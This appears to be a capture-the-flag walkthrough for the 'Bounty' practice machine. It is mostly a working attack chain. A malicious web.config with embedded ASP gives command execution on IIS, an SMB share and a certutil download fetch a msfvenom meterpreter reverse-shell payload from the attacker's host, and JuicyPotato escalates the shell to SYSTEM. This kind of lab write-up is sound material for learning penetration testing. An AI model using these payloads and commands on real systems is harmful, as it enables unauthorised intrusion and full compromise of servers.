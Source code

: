 # bounty

`nmap` shows us that only port 80 is open, so lets begin enumerating that

![](../../.gitbook/assets/image%20%288%29%20%281%29%20%281%29%20%281%29%20%281%29.png)

shows us that we have an `aspx` files, and a folder which looks like, if we upload some thing it will go there. So lets upload a web.config with some `aspx` code in the end. This just runs a systeminfo command. I've tried with just `systeminfo` first, but it doesn't work but the below `cmd.exe /c systeminfo` worked

```text
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<!--
<% Response.write("-"&"->")
Response.write("<pre>")
Set wShell1 = CreateObject("WScript.Shell")
        Set cmd1 = wShell1.Exec("cmd /c systeminfo")
output1 = cmd1.StdOut.Readall()
set cmd1 = nothing: Set wShell1 = nothing
Response.write(output1)
Response.write("</pre><!-"&"-") %>
-->
```

now, I'm going to make use of my default commands for doing file upload/download related things on windows

```text
smbserver.py -u guest -password guest -smb2support kalishare $(pwd)

net use x: \\10.10.14.25\kalishare /user:guest guest
copy x:\shell.exe c:\windows\temp\shell.exe
```

once we've run both these commands on the server using the above tactic. Replace the cmd.exe with the above net use command, and after that we can try to just run the reverse shell command with the payload we generate from msfvenom. the systeminfo command gives us the information about the webserver \(omitted unneeded info\)

```text
Host Name:                 BOUNTY
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Domain:                    WORKGROUP
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.93
```

so its a x64 and 2008 R2 server. lets generate the msfvenom payload now,

```text
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.9 LPORT=4242 -f exe -o shell.exe
```

we can use either a normal reverse shell or meterpreter shell here. I've used meterpreter since I find it a bit easy to manage and has some useful functionality like file upload etc.

```text
certutil -urlcache -split -f http://10.10.14.9/shell.exe shell.exe
```

this is the part where the payload is uploaded into the box using the code execution we got via the web.config. This should work with doing just a normal smb transfer as well. Once we upload the payload and got a call back on our python3 -m http.server 80, we can be sure that our payload is uploaded into the remote server.

now we can change the payload in our web.config file to just execute the shell we have uploaded.

Once we understand whats going on and how to exploit it, its a matter of bunch of commands to exploit this machine which I've summarised below

```text
# to server our payload files
smbserver.py -u guest -password guest -smb2support kalishare $(pwd)

# use the remote share - this command to be run in the web.config file
net use x: \\10.10.14.9\kalishare /user:guest guest

# in the web.config, run the shell.exe, this gives us reverse shell as merlin
cmd /c x:\\shell.exe

# get juicypotato.exe into our share
# now that we got a shell, run (also listen on 4242)
# we can use the same shell.exe and listen on same port, since the active session
# is not listening anymore on that port
x:\JuicyPotato.exe -t * -p x:\\shell.exe -l 9001

and we get a root shell
```

![](../../.gitbook/assets/image%20%289%29.png)

